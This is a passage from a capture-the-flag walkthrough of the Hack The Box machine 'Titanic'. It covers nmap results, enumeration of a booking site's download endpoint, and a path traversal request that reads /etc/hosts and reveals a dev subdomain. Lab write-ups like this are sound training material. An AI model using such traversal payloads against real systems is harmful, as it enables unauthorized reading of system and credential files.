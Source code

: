 ```bash
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
# Nmap done at Sun Feb 16 19:00:08 2025 -- 1 IP address (1 host up) scanned in 8.35 seconds
```

From the results, we see two open TCP ports:  
- **22/tcp**: SSH (OpenSSH 8.9p1)  
- **80/tcp**: HTTP (Apache 2.4.52)  

---

## Initial Enumeration on Port 80

Navigating to `http://titanic.htb` displays a website featuring a booking form:

![Forum on Titanic.htb](Pasted%20image%2020250216193848.png)

When this form is submitted, two requests are made:

10. **POST /book** with form data (name, email, phone, date, and cabin).
11. **GET /download?ticket=\<ID\>.json** returning a JSON file with the submitted data:

```
{
  "name": "zer0",
  "email": "zer0@htb.com",
  "phone": "123-456-7891",
  "date": "2025-02-16",
  "cabin": "Suite"
}
```

---

## Directory Traversal

Noticing the `download` endpoint, we attempt a **directory traversal** payload:

```http
GET /download?ticket=../../../../../../../../etc/hosts HTTP/1.1
```

This successfully returns the contents of `/etc/hosts`, confirming we have **read access** on the filesystem via a path traversal vulnerability:

```bash
127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic
...
```

Here we discover a subdomain: **dev.titanic.htb**. We add this to our own `/etc/hosts` file and navigate to it.

---
